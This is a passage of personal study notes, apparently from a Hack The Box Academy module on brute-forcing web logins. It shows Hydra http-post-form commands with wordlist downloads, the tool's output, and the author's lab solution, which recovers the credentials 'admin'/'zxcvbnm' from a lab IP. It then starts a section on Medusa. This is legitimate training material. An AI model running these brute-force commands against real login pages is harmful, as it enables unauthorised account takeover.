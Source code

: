 ```shell
# Download wordlists if needed
gitblanc@htb[/htb]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
gitblanc@htb[/htb]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
# Hydra command
gitblanc@htb[/htb]$ hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-05 12:51:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3400 login tries (l:17/p:200), ~213 tries per task
[DATA] attacking http-post-form://IP:PORT/:username=^USER^&password=^PASS^:F=Invalid credentials
[5000][http-post-form] host: IP   login: ...   password: ...
[STATUS] attack finished for IP (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-05 12:51:28
```

Remember that crafting the correct `params` string is crucial for a successful Hydra attack. Accurate information about the form's structure and behavior is essential for constructing this string effectively. Once Hydra has completed the attack, log into the website using the found credentials, and retrieve the flag.

> [!Example]
> The academy exercise for this section

I first inspected the petition with the devtools of my browser:

![](Pasted%20image%2020250303234010.png)

Seems to be a post to `/` with the params `username` and `password`. Also the error message is `Invalid credentials`. So I crafted the attack for hydra:

```shell
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f 94.237.55.128 -s 48916 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"

[redacted]
[48916][http-post-form] host: 94.237.55.128   login: admin   password: zxcvbnm
```

![](Pasted%20image%2020250303234337.png)

# Medusa

Medusa, a prominent tool in the cybersecurity arsenal, is designed to be a fast, massively parallel, and modular login brute-forcer. Its primary objective is to support a wide array of services that allow remote authentication, enabling penetration testers and security professionals to assess the resilience of login systems against brute-force attacks.
